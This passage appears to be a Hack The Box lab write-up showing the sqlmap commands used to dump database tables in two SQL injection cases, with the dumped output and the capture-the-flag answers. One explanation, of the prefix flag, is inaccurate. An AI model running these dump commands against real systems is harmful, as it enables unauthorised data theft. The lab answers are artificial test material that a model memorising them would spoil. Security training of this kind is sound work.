 ## Case 6
---
![](Pasted%20image%2020250204162741.png)

Do the same as before, we can do the following command:

```
python3 sqlmap.py -r case6.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='`)'
```

The `-prefix` flag allows us to specify a prefix to prepend to the extracted data.

We get the following output:

```
Database: testdb
Table: flag6
[1 entry]
+----+----------------------------------+
| id | content                          |
+----+----------------------------------+
| 1  | HTB{v1nc3_mcm4h0n_15_4570n15h3d} |
+----+----------------------------------+
```

Flag is `HTB{v1nc3_mcm4h0n_15_4570n15h3d}`

## Case 7
---

![](Pasted%20image%2020250204162749.png)

For case 7, we do the following:

```
python3 sqlmap.py -r case7.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL
```

Since this case is about UNION SQLI, we need to use the `--union-cols` flag to specify the number of columns to be used during the SQLI, if we set this flag to 5, we are telling sqlmap that the vulnerable query returns 5 columns.

We get the following:

```
atabase: testdb
Table: flag7
[1 entry]
+----+-----------------------+
| id | content               |
+----+-----------------------+
| 1  | HTB{un173_7h3_un173d} |
+----+-----------------------+
```

Flag is `HTB{un173_7h3_un173d}`